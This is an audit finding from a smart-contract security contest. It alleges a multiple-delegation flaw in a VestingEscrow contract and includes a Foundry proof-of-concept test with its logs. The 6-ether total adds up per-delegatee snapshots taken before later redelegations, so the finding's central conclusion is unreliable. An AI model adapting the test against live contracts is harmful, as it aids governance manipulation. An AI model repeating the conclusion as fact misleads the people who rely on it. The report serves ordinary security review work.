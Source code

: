 Vast Gingham Moth

high

# VotingEscrow::Unexpected behaviour in voting power

## Summary
An user can delegate more than 1 delegatee and increase the voting power each of them, this increment is malicious because the total voting power will be far more than that user's locked amount.
## Vulnerability Detail
The system allows a user to delegate more than 1 delegatee. That user can partially claim his amount and use those amount to fund the escrow contract and delegate a new delegatee as many times as he wants until his token balance becomes 0. We can see it in test case. To conduct the test we will have to modify the [`TestUtil.sol`](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/test/lib/TestUtil.sol) file, just comment out [this](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/test/lib/TestUtil.sol#L71) and [this](https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/test/lib/TestUtil.sol#L85) line, make a test file inside **test** folder and paste this test case:
```rust

// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {TestUtil} from 'test/lib/TestUtil.sol';
import {ERC20Token} from 'test/lib/ERC20Token.sol';
import 'forge-std/console.sol';

contract Audit is TestUtil {
  address owner = vm.addr(1);
  address manager = vm.addr(2);
  address user1 = vm.addr(3);
  address delegatee = vm.addr(9);
  address delegatee2 = vm.addr(10);
  address delegatee3 = vm.addr(11);

  function setUp() external {
    setUpProtocol(ProtocolConfig(owner, manager));
  }
function test_multipleDelegation() external {
    vm.startPrank(user1);
    deployVestingEscrow(VestingEscrowConfig(3 ether, user1, 10 days, uint40(block.timestamp), 5 days, true, ''));
    vm.warp(10 days + block.timestamp);

    // Claiming 2 ether, so 1 ether will be used to provide voting power to delegatee
    deployedVesting.claim(user1, 2 ether);
    console.log("after claiming user1's balance:", token.balanceOf(user1));
    console.log("balance of escrow contract after 1st claim:", token.balanceOf(address(deployedVesting)));

    // Delegated delegatee
    deployedVesting.delegate(ozVotingAdaptor.encodeDelegateCallData(delegatee));
    console.log("Delegated first time");
    console.log("voting power of delegatee:", token.getVotes(delegatee));

    //transfering 1 ether to escrow contract as the escrow contract funds the delegatee
    token.transfer(address(deployedVesting), 1 ether);
    console.log("after transfering to escrow contract the balance of the user1 is:", token.balanceOf(user1));
    console.log("balance of escrow contract after 1st transfer:", token.balanceOf(address(deployedVesting)));

    // escrow contract successfully funded the delegatee2 
    deployedVesting.delegate(ozVotingAdaptor.encodeDelegateCallData(delegatee2));
    console.log("after delegating 2nd time the balance of the user1 is:", token.balanceOf(user1));
    console.log("voting power of delegatee2:", token.getVotes(delegatee2));
    console.log("delegated 2nd time");

    // again transfering 1 ether to escrow contract, purpose is same, funding the escrow contract so that it can fund delegatee3
    token.transfer(address(deployedVesting), 1 ether);
    console.log("after transfering again to escrow contract the balance of the user1 is:", token.balanceOf(user1));
    console.log("balance of escrow contract after 1st transfer:", token.balanceOf(address(deployedVesting)));

    // escrow contract successfully funded delegatee3
    deployedVesting.delegate(ozVotingAdaptor.encodeDelegateCallData(delegatee3));
    console.log("voting power of delegatee3:", token.getVotes(delegatee3));
    console.log("Delegated 3rd time");

  }
}
```
The result is:
```solidity
[PASS] test_multipleDelegation() (gas: 647078)
Logs:
  after claiming user1's balance: 2000000000000000000
  balance of escrow contract after 1st claim: 1000000000000000000
  Delegated first time
  voting power of delegatee: 1000000000000000000
  after transfering to escrow contract the balance of the user1 is: 1000000000000000000
  balance of escrow contract after 1st transfer: 2000000000000000000
  after delegating 2nd time the balance of the user1 is: 1000000000000000000
  voting power of delegatee2: 2000000000000000000
  delegated 2nd time
  after transfering again to escrow contract the balance of the user1 is: 0
  balance of escrow contract after 1st transfer: 3000000000000000000
  voting power of delegatee3: 3000000000000000000
  Delegated 3rd time

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.67ms
```
Here we can clearly see that total voting power provided by user1 is `(1000000000000000000+2000000000000000000+3000000000000000000) = 6000000000000000000` i.e 6 ether but he vested only 3 ether. 
## Impact
An user can maliciously delegate multiple delegatee and increase total voting power far more than his locked amount.
## Code Snippet
1. https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L268
## Tool used

Manual Review, Foundry

## Recommendation
Add some logic which implements a restriction on multiple delegation.